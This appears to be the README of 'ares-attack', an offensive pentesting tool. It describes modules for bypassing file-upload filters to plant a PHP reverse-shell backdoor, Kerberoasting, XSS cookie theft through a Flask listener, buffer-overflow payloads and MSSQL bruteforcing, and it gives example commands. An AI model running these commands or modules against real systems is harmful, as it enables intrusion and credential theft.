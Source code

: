 # ares-attack
Ares helps Pentesters prepare for war by performing simple attacks against Web Apps and Windows targets (WAR files sold seperately).

## Table of Contents

- [Setup](#setup)
- [Functionality](#functionality)
- [Uploader](#uploader)
- [Roasting](#roasting)
- [XSS](#xss)
- [Mutator](#mutator)
- [Overflower](#overflower)
- [MSSQL Pwner](#mssql-pwner)
- [Related Projects](#related-projects)


## Setup
After installing the dependencies, navigate to this Repo's directory & run `setup.sh`. 

Depending on how they are installed, the name of Impacket's tools can vary (e.g. impacket-GetNPUsers vs GetNPUsers.py). This script ensures that tool names use the proper format.

`bash ./setup.sh`

### Dependencies
impacket-GetNPUsers

impacket-GetUserSPNs

impacket-mssqlclient

crunch

## Functionality
```
Ares will interactively prompt you for input unless you provide the necessary arguments for the selected module.
	
[Options]
	-h: Show this help message
	-m <MODULE>: Specify the module you want to use

[Modules]
	upload: Bypass file upload defenses to get a backdoor on a Web App. Currently, Uploader only supports PHP file types
	roast: ASREP Roasting & Kerberoasting
	xss: Setup for XSS cookie exfil
	mutate: Wordlist mutation
	bof: Buffer Overflow payload generator
	mssql: Bruteforce MSSQL in Active Directory environment
```

### Uploader
Bypass common File Upload defenses.

```
[Options]
	-h: Display this help message
	-i <IP_Addres>: The IP Address to use for the Reverse Shell payload (i.e. your interface)
	-p <PORT>: The port that your listener is running on
	-u <URL>: The target URL that's used in POST Requests to upload a file
	-n <NAME>: The 'name' attribute that's used in POST Requests (e.g. file for name="file")
	-e <URL>: Exploit mode. Attempts to automatically trigger a Reverse Shell. Enter the URL where uploaded files are saved to.
	-a <EXTENSION>: Allowed extension to use with Null Byte (defaults to jpg). Enter the extension without a period prepended.
	-b: Basic payload instead of a Reverse Shell. Provide commands as the value of the 0 parameter (e.g. /evil.php?0=id) . Incompatible with -e

[Example Usage]
	ares -m upload -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -e http://10.10.40.117/uploads/ -a png
	ares -m upload -u http://10.10.40.117/panel/ -n fileUpload -b

[Supported File Types]

Currently, Uploader only supports PHP files. More file types will be added in subsequent updates.
```

### Roasting
Perform ASREP Roasting & Kerberoasting.

### XSS
Ensure that your account has the privileges needed to listen on the port you specified for the Flask server.

This module performs the following 3 actions:

1) Starts a Flask server that will recieve a target's Cookies & save them to a file.

2) Creates an example XSS payload which will send the target's Cookies to the Flask server.

3) Redirects the target to a specified URL (i.e. an inconspicuous page on the website).

### Mutator
Modify wordlist entries & optionally convert them to an alternate format (i.e., Base64 Encoded or as a hash).

Some Web Apps want credentials supplied in B64 or as a password hash, so this prepares a wordlist that can be used with your favorite bruteforcing tool (e.g., `hydra`, `patator`, or `ffuf`).

### Overflower
Generate a binary payload using the specified address & offset.

### MSSQL Pwner
Unlike `hydra`, `impacket-mssqlclient` supports the use of SSPI authentication for MSSQL servers.

This makes it more reliable in an Active Directory environment, but it doesn't come with any bruteforcing functionality.

Ares uses a simple wrapper program to add bruteforcing capabilities to `impacket-mssqlclient`.

## Related Projects
Check out the rest of the Pentesting Pantheon:

Perform recon to see everything your target is hiding with Argus (https://github.com/Komodo-pty/argus-recon/)

Hunt for shells with Artemis (https://github.com/Komodo-pty/artemis-hunter)

Perform Post-Exploitation enumeration against Windows hosts with Hades (https://github.com/Komodo-pty/hades-PrivEsc)
